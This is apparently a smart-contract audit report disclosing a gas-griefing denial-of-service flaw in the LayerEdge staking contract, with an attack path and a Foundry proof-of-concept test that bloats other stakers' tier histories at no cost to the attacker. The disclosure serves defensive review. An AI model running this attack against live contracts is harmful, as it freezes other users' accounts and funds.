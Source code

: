 Trendy Peanut Dolphin

Medium

# Tier History Griefing: Unbounded Tier Events Cause DoS Risk on calculateUnclaimedInterest

### Summary

An attacker can artificially inflate the `stakerTierHistory `of other stakers by repeatedly triggering tier boundary changes through `stake()` and `unstake()` operations. Because `calculateUnclaimedInterest()` loops through this array to compute interest, this creates a **griefing vector** that increases gas cost for others. In the worst case, this could lead to **denial of service (DoS)** for stakers with a bloated tier history, especially since `_updateInterest()` (which calls `calculateUnclaimedInterest`) is invoked at the beginning of all major staking actions.

### Root Cause

The core issue lies in the design of the `calculateUnclaimedInterest `function:

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L407

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L419

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L451

This array is looped over entirely to compute interest. However, `stake()` and `unstake()` by **any** user can trigger `_checkBoundariesAndRecord`, which may update the **tier of other users** (at tier boundaries), appending new entries to their `stakerTierHistory`.

This coupling allows an attacker to manipulate many users’ histories without interacting with them or requiring their consent.

### Internal Pre-conditions

-

### External Pre-conditions

-

### Attack Path

1. Attacker `Judy `performs repeated `stake()`/`unstake()` cycles of the minimum stake amount.
2. Each cycle triggers tier boundary updates that affect users like `Bob`, `David`, and `Eve`.
3. Each affected user gets **2 new entries** per attacker cycle.
4. Once enough cycles are performed, these users’ **stakerTierHistory** arrays become massive.
5. Any action they take (even `stake()`, `unstake()`, `claimInterest()`, ) will call `_updateInterest()` → `calculateUnclaimedInterest()` → O(n) loop.
6. At a certain history size, their actions will **run out of gas**, effectively freezing their account — **permanent DoS** unless they upgrade contracts.

### Impact

**High gas griefing:** Users pay increasingly higher gas for every action due to bloated tier history.
**Permanent DoS:** At large enough tier history sizes, users can no longer interact with the contract.
**No cost to attacker:** Attacker can recover all funds at the end (stake → unstake → completeUnstake), incurring **no loss**.

### PoC

paste in /edgen-staking/test/stake/LayerEdgeStakingTest.t.sol

```solidity
function test__GriefingAttack() public {
        setupMultipleStakers(9);

        uint bobTierHistory = staking.stakerTierHistoryLength(bob);
        uint davidTierHistory = staking.stakerTierHistoryLength(david);
        uint eveTierHistory = staking.stakerTierHistoryLength(eve);

        uint judyBalanceBefore = token.balanceOf(judy);
        uint num = judyBalanceBefore/MIN_STAKE;
        
        for (uint i = 0; i < num; i++) {
            address staker = makeAddr(string(abi.encodePacked("staker", i)));
            vm.startPrank(judy);
            token.transfer(staker, MIN_STAKE);
            vm.stopPrank();

            vm.startPrank(staker);
            token.approve(address(staking), MIN_STAKE);
            staking.stake(MIN_STAKE);

            //waiting for 2 secs to make sure their the full calculation occur as the loop just continue if block.timestamp between two changes are equal
            vm.warp(block.timestamp + 2);

            staking.unstake(MIN_STAKE);
            vm.stopPrank();
            vm.warp(block.timestamp + 2);
        }

         vm.warp(block.timestamp + 7 days);

        for (uint i = 0; i < num; i++) {
            address staker = makeAddr(string(abi.encodePacked("staker", i)));
            vm.startPrank(staker);
            staking.completeUnstake(0);
            token.transfer(judy, MIN_STAKE);
            vm.stopPrank();
        }
        uint judyBalanceAfter = token.balanceOf(judy);

        uint bobTierHistoryAfter = staking.stakerTierHistoryLength(bob);
        uint davidTierHistoryAfter = staking.stakerTierHistoryLength(david);
        uint eveTierHistoryAfter = staking.stakerTierHistoryLength(eve);

        //eve, david and bob all get their stakerTierHistory increased by the length 2 * number of times staking and unstaking is done
        vm.assertEq(eveTierHistoryAfter - eveTierHistory, 2 * num);
        vm.assertEq(davidTierHistoryAfter - davidTierHistory, 2 * num); 
        vm.assertEq(bobTierHistoryAfter - bobTierHistory, 2 * num); 

        //judy gets his full amount after attack
        vm.assertEq(judyBalanceBefore, judyBalanceAfter); 
    }
```

### Mitigation

_No response_